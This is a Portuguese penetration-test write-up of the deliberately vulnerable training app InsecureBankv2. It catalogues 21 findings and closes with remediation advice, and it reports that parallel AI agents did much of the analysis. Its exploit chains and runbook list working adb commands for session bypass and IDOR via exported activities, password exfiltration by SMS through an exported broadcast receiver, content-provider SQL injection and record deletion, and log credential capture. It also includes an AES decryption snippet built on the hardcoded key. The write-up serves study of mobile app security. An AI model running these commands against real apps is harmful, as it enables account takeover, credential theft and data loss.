







# Writeup — Pentest Estático do InsecureBankv2 (com.android.insecurebankv2)

**Alvo:** `InsecureBankv2.apk` (package `com.android.insecurebankv2`, versionCode 1, versionName 1.0, targetSdk 22)
**Tipo de engajamento:** Estudo pessoal de técnicas de pentest mobile, em laboratório próprio, contra aplicativo **deliberadamente vulnerável** (InsecureBankv2 — projeto oficial de Dinesh Shetty, github.com/dineshshetty/Android-InsecureBankv2)
**Data:** 2026-10-05
**Analista:** Sandro Melo (sandromelo.sec@gmail.com)
**Ambiente:** Kali Linux. `adb` instalado durante o engajamento (ausente no início); ainda sem device/emulador conectado → **análise 100% estática**. `sudo` continua com o mesmo conflito de regras já diagnosticado no engajamento anterior (InsecureShop) — não corrigido por não ser escopo deste pentest.
**Frameworks de referência:** OWASP MASVS v2 · OWASP MASTG · OWASP MASWE · MITRE ATT&CK for Mobile · CWE · CVSS v3.1 · NIST SP 800-163 (processo)

> ⚠️ Documento com vulnerabilidades e comandos de exploração reais. Válido apenas contra o APK de treino `InsecureBankv2`, de propriedade do analista, em ambiente controlado. Não utilize estas técnicas contra sistemas sem autorização explícita.

---

## Sumário Executivo

A análise estática do InsecureBankv2 (14 arquivos Java próprios, manifest, recursos e smali) identificou **21 problemas de segurança**, sendo **11 CRÍTICOS**, **3 ALTOS**, **1 BAIXO** e **6 INFORMATIVOS**. O app é um "banco" de treino que: (1) nunca usa token de sessão — qualquer `uname` passado por `Intent` é aceito como prova de identidade em quatro Activities exportadas; (2) cifra a senha com chave AES hardcoded e IV zerado, tornando a criptografia reversível por qualquer um com o APK; (3) tem um `BroadcastReceiver` exportado que **decifra a senha real do usuário e a envia por SMS para qualquer número que o atacante escolher**; (4) expõe um `ContentProvider` sem nenhum controle de acesso e vulnerável a SQL/projection injection; e (5) contém um backdoor de desenvolvedor (`/devlogin`) ativado só digitando o username `devadmin`.

O trabalho foi dividido em **9 agentes paralelos**. Durante a execução, **7 dos 9 agentes caíram por rate limit** (limite de sessão da conta, resetado automaticamente) antes de produzir qualquer saída — todos os 7 foram relançados do zero após o reset e completaram com sucesso. Os 2 agentes originais (fluxo de autenticação e DoTransfer/ViewStatement) completaram na primeira tentativa.

---

## 1. Metodologia e Ambiente

### 1.1 Comandos de reconhecimento e decompilação

| # | Comando | Opções/flags | Finalidade |
|---|---------|------|------------|
| 1 | `ls -la APK_PT_aula/InsecureBankv2.apk` | — | Confirmar presença do APK alvo |
| 2 | `command -v adb && adb devices` | — | Verificar adb/device — `adb` já estava instalado nesta etapa (usuário rodou o `apt install -y` entre os engajamentos); device: nenhum |
| 3 | `sudo -n true` / `sudo -l` | `-n` non-interactive, `-l` lista permissões | Reconfirmar o mesmo conflito de regras `sudoers` do engajamento anterior (não corrigido) |
| 4 | `aapt dump badging InsecureBankv2.apk` | `dump badging` | Package, SDKs (target=22!), permissões, `application-debuggable` |
| 5 | `aapt dump permissions InsecureBankv2.apk` | `dump permissions` | Lista completa de `<uses-permission>` |
| 6 | `jadx -d <outdir> InsecureBankv2.apk` | `-d` diretório de saída | DEX → Java legível (jadx exit 0, sem erros) |
| 7 | `apktool d -f -o <outdir> InsecureBankv2.apk` | `-f` force, `-o` saída | Manifest legível, recursos, smali |
| 8 | `find .../res/xml -type f` | — | Confirmar ausência de `network_security_config.xml` → não existe |
| 9 | `grep -iE "key\|secret\|password\|iv=" .../strings.xml` | regex estendida | Varredura rápida de recursos por segredos — nada relevante em `strings.xml` (os segredos reais estão no código Java, não em recursos) |

### 1.2 Divisão do trabalho (9 agentes paralelos — app pequeno, 14 arquivos próprios, dividido por subsistema real)

| Agente | Subsistema | Resultado da 1ª tentativa | Resultado final |
|---|---|---|---|
| 1 | Fluxo de autenticação (Login/DoLogin/WrongLogin) | ✅ completou | 4 achados |
| 2 | CryptoClass | ❌ rate limit | ✅ retry: 2 achados críticos |
| 3 | ChangePassword & PostLogin | ❌ rate limit | ✅ retry: 4 achados |
| 4 | DoTransfer & ViewStatement | ✅ completou (relatório não foi gravado em disco pelo próprio agente — reconstruído pelo orquestrador a partir do resumo retornado) | 3 achados |
| 5 | TrackUserContentProvider | ❌ rate limit | ✅ retry: 3 achados |
| 6 | MyBroadCastReceiver & MyWebViewClient | ❌ rate limit | ✅ retry: 2 achados |
| 7 | FilePrefActivity & storage | ❌ rate limit | ✅ retry: achado cruzado (MODE_WORLD_READABLE em outro arquivo) |
| 8 | Smali cross-check & runbook | ❌ rate limit | ✅ retry: confirmação byte-a-byte + runbook de 7 passos |
| 9 | Cross-check writeups públicos | ❌ rate limit | ✅ retry: 11 fontes confirmadas |

### 1.3 Alinhamento com NIST SP 800-163

| Fase NIST SP 800-163 | Equivalente neste engajamento |
|---|---|
| Requirements | OWASP MASVS v2 como baseline de controles (seção 3) |
| App Testing | 9 agentes paralelos (seção 1.2) |
| Risk Reporting | Catálogo consolidado com CVSS v3.1 (seção 3) |
| Risk Response/Approval | Recomendações priorizadas (seção 7) |

---

## 2. Detalhamento Completo do `AndroidManifest.xml`

```xml
<manifest package="com.android.insecurebankv2" platformBuildVersionCode="22">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.SEND_SMS"/>
    <uses-permission android:name="android.permission.USE_CREDENTIALS"/>
    <uses-permission android:name="android.permission.GET_ACCOUNTS"/>
    <uses-permission android:name="android.permission.READ_PROFILE"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:maxSdkVersion="18" android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_CALL_LOG"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
    <application android:allowBackup="true" android:debuggable="true" ...>
        ...
    </application>
</manifest>
```

| # | Elemento / Atributo | Problema | Sev. | ID |
|---|---|---|---|---|
| M1 | `allowBackup="true"` | Permite `adb backup` extrair o sandbox completo, incluindo `mySharedPreferences.xml` com a senha cifrada. | Info | V21 |
| M2 | `debuggable="true"` | Permite `run-as` ler qualquer arquivo do sandbox sem root. | Info | V21 |
| M3 | `READ_CONTACTS`, `READ_CALL_LOG`, `ACCESS_COARSE_LOCATION`, `GET_ACCOUNTS`, `READ_PROFILE`, `USE_CREDENTIALS` | 6 permissões sensíveis declaradas; nenhum dos 14 arquivos próprios revisados usa `ContactsContract`, `CallLog`, `LocationManager` ou `AccountManager` — permissões provavelmente herdadas de SDK de terceiros (Google Play Services Wallet/Ads, visíveis no fim do manifest) ou não utilizadas pelo código do app em si. Over-permissioning. | Info | — |
| M4 | `LoginActivity` MAIN/LAUNCHER (sem `exported` explícito) | Correto — tela inicial, precisa ser exportada. | — | — |
| M5 | `FilePrefActivity`, `DoLogin`, `WrongLogin` (sem `exported`) | Não exportadas por padrão — corretas, sem achado de exposição direta. | — | — |
| M6 | `PostLogin exported="true"` | Concede sessão completa (dashboard pós-login) para qualquer `uname`, sem senha. | Critical | V07 |
| M7 | `DoTransfer exported="true"` | Permite pular `LoginActivity` e abrir a tela de transferência direto. | High | V13 |
| M8 | `ViewStatement exported="true"` | IDOR: lê extrato financeiro de qualquer usuário via extra `uname`. | Critical | V14 |
| M9 | `ChangePassword exported="true"` | IDOR: troca a senha de qualquer usuário via extra `uname`, sem senha atual. | Critical | V08 |
| M10 | `<provider authorities="...TrackUserContentProvider" exported="true">` **sem** `readPermission`/`writePermission` | SQL/projection injection + zero controle de acesso (ler/escrever/apagar por qualquer app). | Critical | V15/V16 |
| M11 | `<receiver exported="true" name="MyBroadCastReceiver"><intent-filter><action android:name="theBroadcast"/></intent-filter></receiver>` **sem** `android:permission` | Decifra a senha do usuário logado e a envia por SMS para qualquer número informado pelo atacante. | Critical | V18 |
| M12 | SDK de terceiros (`com.google.android.gms.ads.*`, `wallet.*`) | Activities/receiver de bibliotecas Google Ads/Wallet — não analisados por estarem fora do código próprio do app; o receiver `EnableWalletOptimizationReceiver` é `exported="false"`, sem achado. | — | — |

**Nota:** diferente do InsecureShop, aqui **todos** os componentes sensíveis exportados (`PostLogin`, `DoTransfer`, `ViewStatement`, `ChangePassword`, `TrackUserContentProvider`, `MyBroadCastReceiver`) **aparecem no manifest** com `exported="true"` explícito — não há componentes registrados dinamicamente escondidos do manifest nesta app (diferença notável em relação ao InsecureShop, onde dois receivers críticos só apareciam no código).

---

## 3. Catálogo Consolidado — CWE · MASVS · MASWE · ATT&CK · CVSS

> Mesma nota metodológica do engajamento anterior: vetores CVSS v3.1 calculados manualmente pela fórmula oficial, com julgamento próprio por métrica. `AV:Local` (app atacante co-instalado) reduz o score mesmo com impacto de negócio total.

| ID | Sev. | CWE | MASVS | MASWE | ATT&CK | CVSS v3.1 | Score |
|----|:--:|---|---|---|---|---|:--:|
| V01 | 🔴 Critical | CWE-532 | STORAGE | 0005 | T1417 | `AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **4.6** |
| V02 | 🔴 Critical | CWE-319 | NETWORK | 0026 | T1638 | `AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **7.1** |
| V03 | 🟠 High | CWE-912 (Hidden Functionality) | CODE | (não confirmado) | — | `AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` | **5.3** |
| V04 | ⚪ Info | CWE-200 | PLATFORM | — | — | — | N/A (IPC interno, não exportado) |
| V05 | 🔴 Critical | CWE-321 (Hard-coded Crypto Key) | CRYPTO | 0007 | T1634 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **6.2** |
| V06 | 🔴 Critical | CWE-329 (Predictable IV) | CRYPTO | 0012 | T1634 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **6.2** |
| V07 | 🔴 Critical | CWE-306 (Missing Authentication) | AUTH | 0018 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **6.8** |
| V08 | 🔴 Critical | CWE-639 (IDOR) | AUTH | 0018 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N` | **6.2** |
| V09 | 🔴 Critical | CWE-319 | NETWORK | 0026 | T1638 | `AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **7.1** |
| V10 | 🔴 Critical | CWE-927, CWE-200 | PLATFORM | 0032 | T1624.001, T1646 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **6.8** |
| V11 | ⚪ Info | CWE-693 | RESILIENCE | 0051* | — | — | N/A — não é controle bloqueante |
| V12 | 🔴 Critical | CWE-319 | NETWORK | 0026 | T1638 | `AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` | **7.1** |
| V13 | 🟠 High | CWE-306 | AUTH | 0018 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N` | **5.1** |
| V14 | 🔴 Critical | CWE-639, CWE-312 | AUTH/PLATFORM | 0018, 0035 | T1428, T1533 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **6.8** |
| V15 | 🔴 Critical | CWE-89 (SQL Injection) | PLATFORM | 0050 | T1409 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **6.8** |
| V16 | 🔴 Critical | CWE-926 | AUTH | 0018 | T1428 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` | **8.4** |
| V17 | ⚪ Info | CWE-89 (secundário) | PLATFORM | 0050 | — | — | N/A — não demonstrado |
| V18 | 🔴 Critical | CWE-441, CWE-200 | AUTH/PLATFORM | 0018, 0032 | T1624.001, T1646 | `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L` | **6.8** |
| V19 | 🟡 Low | CWE-940 | PLATFORM | 0035 | T1456 | — | N/A — depende do host WebView (V14) |
| V20 | 🟠 High | CWE-732 | STORAGE | 0001 | T1409 | `AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **4.6** |
| V21 | ⚪ Info | CWE-312, CWE-489 | STORAGE/CODE | 0001 | T1409 | — | N/A — habilitador |

\* MASWE-0051 é nominalmente "Root/Jailbreak Detection Not Implemented" — aqui a detecção *existe* mas é trivialmente bypassável; mesma família de weakness, classificação aproximada.

### 3.1 Cobertura vs. writeups públicos (11 fontes)

Todas as categorias documentadas publicamente para o InsecureBankv2 (chave hardcoded, IV zerado, storage insegura, login bypass via `PostLogin`, componentes exportados sem auth, root detection fraca, WebView insegura, logging/tráfego sem TLS) foram confirmadas de forma independente pelos 9 agentes lendo o código-fonte diretamente — **cobertura completa**, sem gaps identificados (diferente do InsecureShop, onde faltou confirmar o item AWS Cognito).

---

## 4. Cadeias de Exploração — Etapas &amp; Frameworks

> Mesmo formato do engajamento InsecureShop: 4 etapas (Pré-condição → Ação do Atacante → Falha Explorada → Resultado), com tags CWE/MASWE/ATT&CK nos nós.

### 4.1 Cadeia A — Bypass de Sessão via Activities Exportadas (V07, V08, V13, V14)



**Comandos:**
```bash
# Pula login direto para o dashboard de qualquer usuário
adb shell am start -n com.android.insecurebankv2/.PostLogin --es uname "victim_user"
#   -n = componente explícito; --es injeta o extra String "uname", única "prova de sessão".

# Lê o extrato financeiro de qualquer usuário (IDOR)
adb shell am start -n com.android.insecurebankv2/.ViewStatement --es uname "victim_user"
#   Carrega Statements_victim_user.html (storage externo) numa WebView com JS habilitado.

# Troca a senha de qualquer usuário sem saber a senha atual
adb shell am start -n com.android.insecurebankv2/.ChangePassword --es uname "victim_user"

# Pula login para abrir a tela de transferência
adb shell am start -n com.android.insecurebankv2/.DoTransfer
```

**Classificação:** CWE-306/639/312 · MASVS-AUTH/PLATFORM · MASWE-0018,0035 · **MASTG** — Testing Exported Activities, IPC Session Handling · **ATT&CK** T1428, T1533 · **CVSS** 5.1–6.8

---

### 4.2 Cadeia B — Credenciais em Trânsito e em Logs (V01, V02, V09, V12)



**Comandos:**
```bash
# Captura de credenciais no Logcat (debuggable=true)
adb logcat | grep -E "Successful Login|account="

# Interceptação de tráfego (requer posição de rede — MITM proxy/tcpdump)
# Login, DoTransfer e ChangePassword batem em http://<serverip>:<serverport>/{login,dotransfer,changepassword}
```

**Classificação:** CWE-532/319 · MASVS-STORAGE/NETWORK · MASWE-0005,0026 · **MASTG** — Testing Logs, Testing Network Communication · **ATT&CK** T1417, T1638 · **CVSS** 4.6–7.1

---

### 4.3 Cadeia C — Criptografia Quebrável Habilita Decriptação Offline (V05, V06)



**Comando (PoC conceitual):**
```python
from Crypto.Cipher import AES
import base64
key = b"This is the super secret key 123"[:32]  # AES-256 = 32 bytes
iv  = bytes(16)                                  # 16 bytes zerados
cipher = AES.new(key, AES.MODE_CBC, iv)
plaintext = cipher.decrypt(base64.b64decode("<valor capturado em SharedPreferences/backup/SMS>"))
```

**Classificação:** CWE-321/329 · MASVS-CRYPTO · MASWE-0007,0012 · **MASTG** — Testing Cryptographic Key Management, Random Number Generation · **ATT&CK** T1634 · **CVSS** 6.2

---

### 4.4 Cadeia D — Exfiltração de Senha via SMS (Broadcast) (V10, V18)



**Comando:**
```bash
adb shell am broadcast -a theBroadcast --es phonenumber "<numero_atacante>" --es newpass "qualquercoisa"
#   -a casa com o intent-filter exato do manifest (case-sensitive, sem prefixo de package).
#   --es injeta os dois extras String lidos sem nenhuma verificação de remetente.
#   O app descriptografa a senha REAL (usando a chave/IV da Cadeia C) e envia por SMS
#   usando a PRÓPRIA permissão SEND_SMS do app — o atacante não precisa dessa permissão.
```

**Classificação:** CWE-441/200/927 · MASVS-AUTH/PLATFORM · MASWE-0018,0032 · **MASTG** — Testing Broadcast Receivers · **ATT&CK** T1624.001, T1646 · **CVSS** 6.8

---

### 4.5 Cadeia E — SQL/Projection Injection e Destruição de Dados (V15, V16, V17)



**Comandos:**
```bash
# Leitura livre, sem permissão
adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers

# Projection injection — dump do schema via subquery no campo projection
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers \
  --projection "name,(SELECT group_concat(sql) FROM sqlite_master) AS dump"

# Apaga TODOS os registros (selection vazio = WHERE vazio)
adb shell content delete --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

**Classificação:** CWE-89/926 · MASVS-PLATFORM/AUTH · MASWE-0050,0018 · **MASTG** — Testing for Injection Flaws, Content Provider Security · **ATT&CK** T1409, T1428 · **CVSS** 6.8–8.4

---

### 4.6 Cadeia F — Backdoor de Desenvolvedor (V03)



**Comando:**
```bash
# Login com qualquer senha, username = devadmin
# (observar no jadx/tráfego que a requisição vai para /devlogin em vez de /login)
```

**Classificação:** CWE-912 · MASVS-CODE · **MASTG** — Testing for Hidden/Debug Functionality · **CVSS** 5.3 (estimativa conservadora — impacto real depende do backend `/devlogin`, não auditado nesta análise estática)

---

### 4.7 Cadeia G — Armazenamento Inseguro (V20, V21)



**Comandos:**
```bash
adb shell run-as com.android.insecurebankv2 cat /data/data/com.android.insecurebankv2/shared_prefs/mySharedPreferences.xml
adb backup -f bank.ab com.android.insecurebankv2
```

**Classificação:** CWE-732/312 · MASVS-STORAGE · MASWE-0001 · **MASTG** — Testing Data Storage, Device Backup · **ATT&CK** T1409 · **CVSS** 4.6

---

## 5. Runbook Consolidado

```bash
# ── Passo 0 — instalar e validar superfície em runtime ──
adb install InsecureBankv2.apk
adb shell pm dump com.android.insecurebankv2 | grep -E "exported|android:permission"

# ── Passo 1 — exfiltração de senha via SMS (V10+V18, o mais crítico, não precisa de login) ──
adb shell am broadcast -a theBroadcast --es phonenumber "5551234567" --es newpass "hacked123"

# ── Passo 2 — bypass de sessão: dashboard de qualquer usuário ──
adb shell am start -n com.android.insecurebankv2/.PostLogin --es uname "<username_vitima>"

# ── Passo 3 — IDOR no extrato bancário ──
adb shell am start -n com.android.insecurebankv2/.ViewStatement --es uname "<username_vitima>"

# ── Passo 4 — troca de senha sem autenticação ──
adb shell am start -n com.android.insecurebankv2/.ChangePassword --es uname "<username_vitima>"

# ── Passo 5 — abrir transferência pulando login ──
adb shell am start -n com.android.insecurebankv2/.DoTransfer

# ── Passo 6 — Content Provider: leitura, injeção e destruição ──
adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers \
  --projection "name,(SELECT group_concat(sql) FROM sqlite_master) AS dump"
adb shell content delete --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers

# ── Passo 7 — credenciais no Logcat ──
adb logcat | grep -E "Successful Login|account="

# ── Passo 8 — extração de storage + decriptação offline ──
adb shell run-as com.android.insecurebankv2 cat /data/data/com.android.insecurebankv2/shared_prefs/mySharedPreferences.xml
adb backup -f bank.ab com.android.insecurebankv2
# Decriptar com key="This is the super secret key 123" (AES-256) + IV=0x00*16, modo CBC/PKCS5Padding.

# ── Passo 9 — backdoor de desenvolvedor ──
# Login com username "devadmin" (qualquer senha) -> observar requisição para /devlogin em vez de /login.
```

---

## 6. Tabelas de Esforço — Atividades, Tokens e Custo

### 6.1 Por agente (modelo: Claude Sonnet 5 — `claude-sonnet-5`)

> **Importante:** estes valores refletem **apenas as 9 execuções que completaram** (2 na primeira tentativa + 7 retries após o reset do rate limit). As 7 tentativas que falharam por rate limit consumiram tokens parciais antes de abortar, mas a telemetria de falha não reporta esse consumo — **o custo real total desta etapa é maior** que o valor abaixo. Os tokens por agente aqui são **muito mais altos** que no engajamento InsecureShop (110k–130k) porque cada fork herda o **histórico completo da conversa**, que já incluía todo o engajamento anterior — o custo de um fork cresce com o tamanho acumulado da sessão. Proporção entrada/saída assumida: 90/10 → taxa combinada US$ 2,80/MTok. Câmbio: US$ 1 = R$ 5,2158 (mesma referência do engajamento anterior, não reconsultada).

| # | Atividade (agente) | Tentativas | Tool calls (final) | Duração (final) | Tokens (final) | US$ (est.) | R$ (est.) |
|---|---|:--:|---:|---:|---:|---:|---:|
| 1 | Fluxo de autenticação | 1 | 4 | 42,6s | 383.039 | $1,07 | R$ 5,60 |
| 2 | CryptoClass | 2 (1 falhou) | 3 | 32,3s | 392.889 | $1,10 | R$ 5,74 |
| 3 | ChangePassword & PostLogin | 2 (1 falhou) | 3 | 60,1s | 399.853 | $1,12 | R$ 5,84 |
| 4 | DoTransfer & ViewStatement | 1 | 2 | 51,2s | 383.756 | $1,07 | R$ 5,61 |
| 5 | TrackUserContentProvider | 2 (1 falhou) | 2 | 68,6s | 397.045 | $1,11 | R$ 5,80 |
| 6 | MyBroadCastReceiver & WebView | 2 (1 falhou) | 3 | 36,1s | 392.731 | $1,10 | R$ 5,74 |
| 7 | FilePrefActivity & storage | 2 (1 falhou) | 3 | 40,4s | 394.034 | $1,10 | R$ 5,75 |
| 8 | Smali cross-check & runbook | 2 (1 falhou) | 5 | 98,7s | 408.729 | $1,14 | R$ 5,97 |
| 9 | Cross-check writeups públicos | 2 (1 falhou) | 4 | 55,4s | 396.557 | $1,11 | R$ 5,79 |
| | **Total (execuções completas)** | **16** | **29** | **~485s CPU-agente*** | **3.548.633** | **$9,94** | **R$ 51,83** |

*\*Soma individual das execuções que completaram; rodaram em paralelo (duas ondas), tempo de parede real ~2-3 minutos por onda.*

### 6.2 Por fase do engajamento

| Fase | Descrição | Tokens | US$ | R$ |
|---|---|---:|---:|---:|
| Setup/decompilação | `aapt`, `jadx`, `apktool`, recon de ambiente | não medido pela API (shell) | — | — |
| Análise paralela — 1ª onda (2 completos + 7 falhos) | Ver tabela 6.1 (tokens dos falhos não medidos) | ≥ 766.795 (só os 2 completos) | ≥ $2,15 | ≥ R$ 11,21 |
| Análise paralela — 2ª onda (7 retries) | Ver tabela 6.1 | 2.781.838 | $7,79 | R$ 40,63 |
| Consolidação deste writeup | Orquestrador principal | não medido de forma cumulativa pela ferramenta disponível | não calculável | não calculável |
| **Total mensurável** | | **≥ 3.548.633** | **≥ $9,94** | **≥ R$ 51,83** |

---

## 7. Recomendações Priorizadas

| Prioridade | Ação | Resolve |
|---|---|---|
| 1 | Remover `MyBroadCastReceiver` ou exigir permissão `signature`; nunca decifrar/transmitir credencial em resposta a trigger externo | V10, V18 |
| 1 | Gerar chave via Android Keystore; IV aleatório por operação; preferir AES/GCM autenticado | V05, V06 |
| 1 | Implementar token de sessão opaco validado no backend; `exported="false"` em `PostLogin`/`ChangePassword`/`ViewStatement`/`DoTransfer` | V07, V08, V13, V14 |
| 1 | `readPermission`/`writePermission` com `protectionLevel="signature"` no `TrackUserContentProvider`; popular `setProjectionMap` com allow-list real | V15, V16 |
| 2 | Forçar HTTPS em todos os endpoints (`/login`, `/dotransfer`, `/changepassword`, `/getaccounts`) | V02, V09, V12 |
| 2 | Remover branch `/devlogin` do build de produção | V03 |
| 2 | Remover `Log.d` com credenciais | V01 |
| 3 | Corrigir `MODE_WORLD_READABLE` → `MODE_PRIVATE` em `MyBroadCastReceiver` | V20 |
| 3 | `allowBackup="false"`, `debuggable="false"` em release | V21 |
| 4 | Implementar detecção de root robusta (ou removê-la, já que não bloqueia nada hoje) | V11 |
| 4 | Remover permissões não utilizadas (`READ_CONTACTS`, `READ_CALL_LOG`, `ACCESS_COARSE_LOCATION`, etc.) | M3 |

---

## 8. Referências

- [Repositório oficial — github.com/dineshshetty/Android-InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2)
- [Android InsecureBankv2 Walkthrough Part 1/2/3 — Medium/bugbountywriteup](https://medium.com/bugbountywriteup/android-insecurebankv2-walkthrough-part-1-9e0788ba5552)
- [B3nac — Android-InsecureBankv2 write-up](https://github.com/B3nac/B3nac-Android-InsecureBankv2-write-up)
- [OWASP MASVS](https://mas.owasp.org/MASVS/) · [OWASP MASTG](https://mas.owasp.org/MASTG/) · [OWASP MASWE](https://mas.owasp.org/MASWE/) · [MITRE ATT&CK Mobile](https://attack.mitre.org/matrices/mobile/) · [MITRE CWE](https://cwe.mitre.org/) · [FIRST CVSS v3.1](https://www.first.org/cvss/v3-1/specification-document) · [NIST SP 800-163 Rev.1](https://csrc.nist.gov/pubs/sp/800/163/r1/final)
- Relatórios individuais: `findings/01_auth_flow.md` … `findings/09_known_writeups_crosscheck.md` (mesma pasta deste writeup)

---

*Documento gerado em 2026-10-05 como parte de estudo pessoal de pentest mobile em ambiente controlado. Analista: Sandro Melo.*
